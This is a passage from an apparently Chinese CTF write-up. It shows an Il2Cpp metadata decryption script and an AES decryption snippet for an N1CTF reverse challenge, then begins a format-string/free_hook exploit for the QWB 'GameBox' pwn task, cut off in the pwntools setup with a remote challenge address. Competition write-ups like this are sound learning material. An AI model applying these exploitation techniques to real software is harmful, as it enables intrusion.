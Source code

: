 ```python

i=0
while i< len(data):
	out+=encode(data[i:i+4],key[(i+i/132)%132])
	i+=4

out = '\xAF\x1B\xB1\xFA'+out[4:]# fix header

open('global-metadata.dat','wb').write(out)
```

再用Il2CppDumper去dump信息就成功了.

通过符号找到主函数

![](n1ctf_qwb_5b216abb797fc49c3f98983f4ca8cc25.png)

发现里面其实是一个aes,具体代码就不贴了

```python
# encoding:utf-8
import base64
from Crypto.Cipher import AES
 
encrypt_data = base64.b64decode('w0ZyUZAHhn16/MRWie63lK+PuVpZObu/NpQ/E/ucplc=')
password = '91c775fa0f6a1cba'
iv = '58f3a445939aeb79'
cipher = AES.new(password, AES.MODE_CBC, iv)
data  = cipher.decrypt(encrypt_data)
print data
```

这里还是要膜一下p姐姐,太强了.orz

## 强网杯

### pwn - GameBox

ummmm,fmt

![](n1ctf_qwb_3739b985b98483b672f76a930ff44ae1.png)

但是信息是存在heap上的,考虑用ebp chain去改freehook好了.不是什么新鲜套路了,不想多说

考虑到限制了rank数量,测试了一下,删除rank后构造的ebp chain没有被破坏 开心

```python
#coding=utf8
from pwn import *
from ctypes import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 1

if local:
	cn = process('./GameBox')
	bin = ELF('./GameBox')
	libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
	cn = remote('39.107.33.43', 13570)
	bin = ELF('./GameBox')
	libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")


def z(a=''):
```
